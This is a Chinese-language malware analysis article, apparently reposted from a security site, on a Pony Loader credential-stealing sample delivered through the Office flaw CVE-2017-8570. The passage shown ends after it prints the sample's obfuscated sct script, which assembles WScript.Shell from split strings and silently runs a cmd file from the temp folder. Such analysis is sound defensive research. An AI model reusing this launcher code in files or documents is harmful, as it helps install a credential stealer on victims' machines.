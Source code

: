 > 原文链接: https://www.anquanke.com//post/id/170654 


# Pony Loader窃密木马样本分析


                                阅读量   
                                **197488**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p0.ssl.qhimg.com/t01142fc2b12d8a7056.png)](https://p0.ssl.qhimg.com/t01142fc2b12d8a7056.png)



## 前言

自从Pony Loader源码在论坛出售，便大规模用于窃取用户隐私数据。钓鱼攻击为最常用的手法，核心代码不断改变、投递方式也因攻击者不同而变化。这里我们分析一个通过漏洞CVE-2017-8570运行并使核心窃密恶意代码无文件落地执行的较新型样本。



## 一、 投递部分

CVE-2017-8570漏洞为Microsoft Office的一个远程代码执行漏洞。因为Microsoft PowerPoint执行时会初始化Script”Moniker对象，并在PowerPoint播放动画期间会激活该对象，导致执行sct脚本（Windows Script Component）文件。攻击者可以通过欺骗用户运行含有CVE-2017-8570漏洞的PPT文件分发恶意程序。

### <a class="reference-link" name="1.1%E5%88%86%E6%9E%90%E6%BC%8F%E6%B4%9E%E6%96%87%E6%A1%A3"></a>1.1分析漏洞文档

使用rtfobj.py拆解取出文档中的对象（图中的后缀名为已修改内容），可以看到文档包含sct脚本文件和许多可执行文件，猜测逻辑上是接力执行关系。

[![](https://p1.ssl.qhimg.com/t01c51a7b5a93145a83.png)](https://p1.ssl.qhimg.com/t01c51a7b5a93145a83.png)

根据该漏洞的描述，最先执行的是sct脚本文件；如果文档包涵多个sct文件时，可通过分析sct文件或查看bin对象确认启动顺序和路径；该bin文件二进制内容显示，首先执行的是临时文件下的a.sct样本（不区分大小写）。

[![](https://p3.ssl.qhimg.com/t01d75e2a6fed4f50e5.png)](https://p3.ssl.qhimg.com/t01d75e2a6fed4f50e5.png)

1.样本a.sct的主要内容是运行样本ufFm.cmd，具体内容如下：

`&lt;script&gt;`<br>`&lt;![CDATA[`<br>`function tbpofmq(hello)`<br>``{``<br>`_ActiveXObj = this['Act'+'iveXO'+'bject'];`<br>`var nnqybb='ell';`<br>`var unzhb='t.';`<br>`var yybfex='rip';`<br>`var unzznjf='WSc';`<br>`var yubz='Sh';`<br>`var shdkqn = new _ActiveXObj(unzznjf + yybfex + unzhb + yubz + nnqybb);`<br>`shdkqn["Run"](hello, 0, 1);`<br>``}``<br><code>var opznjaf='"';<br>
var unzk18="MD" + opznjaf;<br>
var mqiojnj3="C";<br>
var rtqnooznn5 ="m";<br>
var oonnzzh4="&lt;";<br>
var nqyznfhw0=mqiojnj3+"mD ";<br>
var iqmzghsl= nqyznfhw0 + "/" + mqiojnj3 + " " + nqyznfhw0 + oonnzzh4 + " " + opznjaf + "%Te" + rtqnooznn5 + "P%\ufFm.c" + unzk18;<br>
tbpofmq(iqmzghsl);]]&gt;<br>
&lt;/script&gt;</code>

